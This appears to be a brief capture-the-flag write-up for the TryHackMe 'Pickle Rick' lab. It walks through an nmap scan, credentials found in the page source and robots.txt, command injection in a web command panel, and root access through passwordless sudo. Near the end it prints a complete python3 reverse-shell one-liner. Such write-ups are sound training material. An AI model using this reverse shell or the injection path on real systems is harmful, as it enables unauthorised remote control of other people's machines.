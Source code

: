                                         #######################
                                        ####      Web      ####
                                        #######################
                                        #####  TryHackMe  #####
                                        ##### Pickle Rick #####
                                        #####  By 0xRar   #####
                                        #######################


## Nmap scan :
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a1:4e:a3:4e:5c:f2:0f:6e:8d:2e:a8:0c:3c:9f:d4:ee (RSA)
|   256 95:91:a8:d8:ab:e4:0e:a4:8d:b8:43:27:01:58:b2:c2 (ECDSA)
|_  256 b6:f3:eb:2d:f1:c2:bc:b3:6b:c8:da:50:49:ac:27:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Portal  Creds :
```
Got the username from the source code
Username: R1ckRul3s

Got the password from robots.txt
Password: Wubbalubbadubdub
```
## Portal (LOGIN)
```
Used gobuster dir to get the login page
MACHINE_IP/portal.php
```

## How did i get in ?
```
The portal page or the command panel was infected with command injection so
i tried to get a rev shell with nc but didint work so i tried python2 didint work
so i tried python3 and it worked, i uploaded linpeas for more information and found out that all users has ((NOPASSWD))
i got root using the command (sudo bash).  
```
## python3 reverse shell :
`
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MACHINE_IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
`

## root :
`
sudo bash
`
